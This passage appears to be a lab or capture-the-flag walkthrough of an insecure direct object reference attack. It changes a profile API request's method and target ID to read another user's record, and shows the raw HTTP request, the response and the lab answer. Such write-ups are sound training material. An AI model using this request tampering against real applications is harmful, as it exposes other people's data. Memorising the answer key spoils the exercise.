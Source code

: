 Once we try to upload our profile, we get this request, it is a `PUT` request, so, let's try changing the value in the following way:

```
GET /profile/api.php/profile/5 HTTP/1.1

Host: 94.237.48.103:48289

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: http://94.237.48.103:48289/profile/index.php

Content-type: application/json

Content-Length: 208

Origin: http://94.237.48.103:48289

Connection: keep-alive

Cookie: role=employee

Priority: u=0



{"uid":5,"uuid":"40f5888b67c748df7efba008e7c2f9d2","role":"employee","full_name":"Amy Lindon","email":"a_lindon@employees.htb","about":"A Release is like a boat. 80% of the holes plugged is not good enough."}
```

If we do so, we get the following:

```
HTTP/1.1 200 OK

Date: Mon, 17 Feb 2025 21:18:35 GMT

Server: Apache/2.4.41 (Ubuntu)

Vary: Accept-Encoding

Content-Length: 177

Keep-Alive: timeout=5, max=100

Connection: Keep-Alive

Content-Type: text/html; charset=UTF-8



{"uid":"5","uuid":"eb4fe264c10eb7a528b047aa983a4829","role":"employee","full_name":"Callahan Woodhams","email":"c_woodhams@employees.htb","about":"I don't like quoting others!"}
```

Answer is:

```
eb4fe264c10eb7a528b047aa983a4829
```
